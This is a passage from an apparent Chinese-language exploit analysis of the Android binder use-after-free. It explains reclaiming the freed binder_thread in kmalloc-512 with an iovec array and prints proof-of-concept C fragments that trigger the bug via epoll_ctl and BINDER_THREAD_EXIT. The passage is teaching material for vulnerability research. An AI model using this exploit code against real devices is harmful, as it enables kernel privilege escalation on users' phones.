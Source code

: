 内核对象 binder_thread 需要的内存是 slab 分配器分配，内存被释放后内存被链接回到 kmalloc-512 里。说明我们需要构造 512 个字节的结构体来占位

 

那为什么不用其他数据结构填充，比如都是一堆 char 呢，颗粒度够细绝对能模拟全部的数据结构，非要用这个 iovec 呢。原因在于，

 

第一，我们只能在三环创建数据结构，O 环真的把这个结构拷贝进内核了吗，没有是不占用内核内存的，没法起到替换 / 占位的作用。

 

第二 即便拷贝进去了，能不能能利用结构体关联的函数 / 机制做进一步的利用呢。iovec 结构体背后的机制，就是所谓向量化 I/O 就非常适合，它有 4 方面优势

 

1. 由于 binder_iovecs 是由多个 iovec 组成的 iovec 数组，数组长度是由攻击者控制的，通过调节数组长度就能得到想要的大小了。

 

2. 两个成员变量里有一个是指针，并且可以从这个指针里读 / 写数据

 

3. 这个结体足够小，因为 AARCH64 架构一般是 8 字节的内存对齐，所以可以近似把大部分内核对象的大小都视为 8 字节的整数倍，由于 ARM64 下单个 iovec 只有 16 字节，几乎可以用它占位所有的 UAF 对象了，是 64 为 OS 下一个比较通用的 UAF 漏洞利用方案。iovec 结构体如下

```
struct iovec {         // Size: 0x10
    void *iov_base;    // 0x00
    size_t iov_len; // 0x08
}

```

4.iovec 数组会被全部拷贝到内核，可以用来占用内核内存的

 

那为什么从下标 iov_idx 开始的 iovec 结构体是有效的，为什么不是从第 4 个，或者第 7 个开始有效？因为 bio.iovs[iov_idx] 相对于 bio.iovs[0] 的偏移，就是 wait_queue_head_t wait 相对于 UAF 对象 binder_thread 的偏移，我改写 bio.iovs[iov_idx] 这个字段就相当与改写了 binder_thread 里的 wait 字段。巧妙吧，两者重叠了

 

还有一个问题, 那为什么要给 POC 中 iovec 设置了两个如此奇怪的内存区域，一个是从 dummy_page 开始，大小是 PAGE_SIZE，以及从 0xdeadbeef 开始大小为 PAGE_SIZE。dummy_page 之前已经确认是 0x100000000ul 了，那 0xdeadbeef 是啥，死牛肉？这虽然是一个合法的二进制数但肯定不是一个合法的内存地址。说明这个数，应该目前只是一个占位符，只是为了能编译通过，后面肯定会被漏洞程序在运行时改写成一个合法的地址。那咋改写的？改写成啥了呢？接着看后面的代码

```
int pipe_fd[2];
if (pipe(pipe_fd))
    err(1, "pipe");
if (fcntl(pipe_fd[0], F_SETPIPE_SZ, PAGE_SIZE) != PAGE_SIZE)
    err(1, "pipe size");
static char page_buffer[PAGE_SIZE];
 
pid = fork();
if (pid == -1)
    err(1, "fork");
if (pid == 0) {
    /* Child process */
    prctl(PR_SET_PDEATHSIG, SIGKILL);
    sleep(2);
    epoll_ctl(epoll_fd, EPOLL_CTL_DEL, binder_fd, &event);
    // first page: dummy data.it's read,not readv
    printf("child:read begin\n");
    if (read(pipe_fd[0], page_buffer, PAGE_SIZE) != PAGE_SIZE)
        err(1, "read full pipe");
    printf("child:read finish\n");
    printf("page buff1 %s\n");
    close(pipe_fd[1]);
    exit(0);
}
 
ioctl(binder_fd, BINDER_THREAD_EXIT, NULL);
```